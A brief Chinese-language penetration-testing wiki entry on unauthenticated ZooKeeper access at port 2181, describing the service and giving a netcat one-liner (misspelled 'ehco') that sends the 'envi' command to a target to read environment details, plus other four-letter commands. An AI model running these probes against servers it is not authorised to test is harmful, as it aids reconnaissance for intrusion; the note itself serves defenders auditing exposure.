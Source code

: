 # Zookeeper 2181端口

## 关于

<a-checkbox checked>ZooKeeper是一个分布式的，开放源码的分布式应用程序协调服务，是Google的Chubby一个开源的实现，是Hadoop和Hbase的重要组件。它是一个为分布式应用提供一致性服务的软件，提供的功能包括：配置维护、域名服务、分布式同步、组服务等。</a-checkbox></br>

<a-checkbox checked>ZooKeeper默认开启在2181端口，在未进行任何访问控制情况下，攻击者可通过执行envi命令获得系统大量的敏感信息，包括系统名称、Java环境。</a-checkbox></br>

## 攻击方法

使用NC连接，并执行 envi 获取敏感信息

```bash
ehco envi | nc xxx.xxx.xxx.xxx 2181
```

![img](/assets/PeiQi-Wiki/img/1629282926633-640040a0-28a8-4488-89b3-0701a19dad61.png)

相关其他命令

```
stat：列出关于性能和连接的客户端的统计信息 
ruok：测试服务器是否运行在非错误状态。
reqs：列出未完成的请求
envi：打印有关服务环境的详细信息
dump：列出未完成的会话和临时节点
```

